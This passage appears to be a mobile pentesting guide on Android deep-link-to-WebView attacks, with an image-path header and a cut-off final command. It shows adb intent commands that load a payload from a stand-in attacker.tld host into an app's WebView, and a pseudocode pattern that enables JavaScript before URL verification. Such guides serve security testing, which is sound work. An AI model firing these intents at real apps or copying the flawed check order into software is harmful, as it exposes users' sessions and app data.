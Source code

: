```
```
```
Attack pattern and PoC via adb:

```bash
# Template – force load in internal WebView
adb shell am start -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# If a specific Activity must be targeted
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```
```
Impact: the remote page runs in the app WebView context (cookies/session of the app WebView profile, access to any exposed @JavascriptInterface, potential access to content:// and file:// depending on settings).

Hunting tips:
- Grep decompiled sources for `getQueryParameter("url")`, `loadUrl(`, `WebView` sinks, and deep-link handlers (`onCreate/onNewIntent`).
- Review the manifest for VIEW+BROWSABLE filters and custom schemes/hosts that map to activities that later start a WebView.
- Check if there are multiple deep-link paths (e.g., an “external browser” path vs. an “internal webview” path) and prefer the one that renders inside the app.

### Enabling JavaScript before verification (order-of-checks bug)

A frequent hardening mistake is enabling JavaScript or configuring relaxed WebView settings before the final allowlist/verification of the target URL completes. If the verification is inconsistent across helpers or happens too late, an attacker deep link can reach a state where:

1) WebView settings apply (e.g., `setJavaScriptEnabled(true)`), and
2) The untrusted URL is loaded with JavaScript enabled.

Bug pattern (pseudocode):

```java
// 1) Parse/early checks
Uri u = parse(intent);
if (!looksValid(u)) return;

// 2) Configure WebView BEFORE final checks
webView.getSettings().setJavaScriptEnabled(true); // BAD: too early
configureMixedContent();

// 3) Do final verification (late)
if (!finalAllowlist(u)) return; // too late – JS already enabled

// 4) Load
webView.loadUrl(u.toString());
```
```
Why it’s exploitable
- Inconsistent normalization: helpers split/rebuild the URL differently than the final check, creating mismatches a malicious URL can exploit.
- Misordered pipeline: enabling JS in step 2 applies globally to the WebView instance, affecting the final load even if verification would later fail.

How to test
- Craft deep-link payloads that pass early checks and reach the WebView configuration site.
- Use adb to fire implicit VIEW intents delivering a `url=` parameter controlled by you:

```bash
adb shell am start -a android.intent.action.VIEW \
```